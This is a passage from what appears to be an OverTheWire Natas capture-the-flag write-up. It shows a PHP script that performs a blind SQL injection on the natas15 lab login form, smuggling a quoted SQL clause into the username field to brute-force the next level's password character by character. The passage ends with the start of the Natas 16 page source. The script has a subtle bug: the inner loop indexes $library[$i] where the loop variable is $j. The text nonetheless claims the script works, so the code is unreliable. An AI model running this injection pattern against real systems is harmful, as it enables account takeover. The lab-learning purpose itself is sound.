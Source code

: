 ~~~~
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}


$c = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
$library = '';

for ($i = 0; $i < strlen($c); $i++)
{
    $character = $c[$i];
    $r = post("http://natas15.natas.labs.overthewire.org/index.php?debug", ['username' => "natas16\" AND password LIKE BINARY \"%$character%\"#"]);
    if (strpos($r, "<br>This user exists.<br>"))
    {
        $library .= $character;
    }
}

$password = '';

for ($i = 0; $i < 32; $i++)
{
    for ($j = 0; $j < strlen($library); $j++)
    {
        $character = $library[$i];
        $r = post("http://natas15.natas.labs.overthewire.org/index.php?debug", ['username' => "natas16\" AND password LIKE BINARY \"$password$character%\"#"]);
        if (strpos($r, "<br>This user exists.<br>"))
        {
            $password .= $character;
            echo "$password\n";
        }
    }
}
~~~~

We iterate through all 32 characters of the password, and for each position, we try a character from our library. Eventually, we should have our password! Let's run this.


With the echo statement, we can see our password build itself before our very eyes!

Finally, we have something. And it works!


## Natas 16 🡆 Natas 17

~~~~
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
~~~~